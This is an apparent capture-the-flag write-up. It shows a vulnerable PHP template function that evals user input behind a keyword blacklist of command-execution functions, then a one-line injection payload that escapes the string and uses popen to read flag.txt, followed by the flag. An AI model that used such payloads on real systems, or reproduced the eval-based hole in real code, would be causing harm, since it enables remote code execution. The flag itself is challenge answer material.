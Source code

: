 Search for funcion `render_template`, in `includes/functions.php`:

```php=
<?php
class Functions
{
    public static function render_template($template, $variables = [])
    {
        $blacklist = [
            'system',
            'exec',
            'shell_exec',
            'passthru',
            'eval',
            'phpinfo',
            'assert',
            'create_function',
            'include',
            'require',
            'fopen',
            'fwrite',
            'file_put_contents',
            'file_get_contents',
        ];
        foreach ($blacklist as $badword) {
            if (stripos($template, $badword) !== false) {
                return "Error: Invalid input detected.";
            }
        }
        extract($variables);
        try {
            eval ("\$output = \"$template\";");
            return $output;
        } catch (ParseError $e) {
            return "Syntax Error: " . $e->getMessage();
        }
    }
}
```

:::Tip
We can easily see `eval`, a very dangerous function.
:::

Payload time:

```php=
123"; echo fread(popen('cat flag.txt', 'r'), 4096);#
```

![Screenshot 2025-01-12 165101](https://github.com/user-attachments/assets/f3757116-c862-4519-8c9d-821ed4aabc9f)

### Flag: 
`
VSL{12e844403b1fb9c5b6705d8dd8823e4a}
`
